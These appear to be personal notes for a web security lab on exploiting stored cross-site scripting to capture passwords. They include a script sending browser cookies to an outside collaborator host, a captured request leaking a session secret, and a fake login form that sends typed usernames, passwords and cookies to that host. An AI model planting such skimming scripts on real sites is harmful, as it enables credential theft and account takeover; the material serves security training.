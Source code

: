 ![](https://i.imgur.com/SSj1GG5.png)


### Exploiting cross-site scripting to capture passwords

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

hg15cseqelc8lqjvusv69aecl3rtfi.burpcollaborator.net

```
<script>
var i = new Image();
i.src = "http:/hg15cseqelc8lqjvusv69aecl3rtfi.burpcollaborator.net/get.php?q="+document.cookie;
</script>
```

```
GET /get.php?q=secret=IpL2ImyUJjruE9Apjx3UjmkAcDqK8gy7 HTTP/1.1
Host: hg15cseqelc8lqjvusv69aecl3rtfi.burpcollaborator.net
Connection: keep-alive
sec-ch-ua: 
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: 
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://ac831fc81f6bafaec0bd448700b4002b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US
```

Final Payload - Blog Post
1. 1 Blog post can only have 1 login (if not autofill how?)
2. onchange?

```
<p> Login Here! 817ashiw4kgujq6ffba8jouz3q9gx5.burpcollaborator.net
</p>

<script>
function stealCreds(){
      var user = document.getElementById('username').value;
      var pass = document.getElementById('password').value;
      var url = "http://817ashiw4kgujq6ffba8jouz3q9gx5.burpcollaborator.net/login?u=" + user + "&p=" + pass+"&cookie="+document.cookie;
      console.log(url);
      new Image().src=url;
    }
</script>
  
<h1>Login</h1>
<section>
    <form class=login-form method=POST action=/login>
        <input required type="hidden" name="csrf" value="dummycsrf">
        <label>Username</label>
        <input required type=username name="username" id="username" onchange="stealCreds()">
        <label>Password</label>
        <input required type=password name="password" id="password" onchange="stealCreds()">
        <button class=button type=submit onclick="stealCreds()""> Log in </button>
    </form>
</section>
```
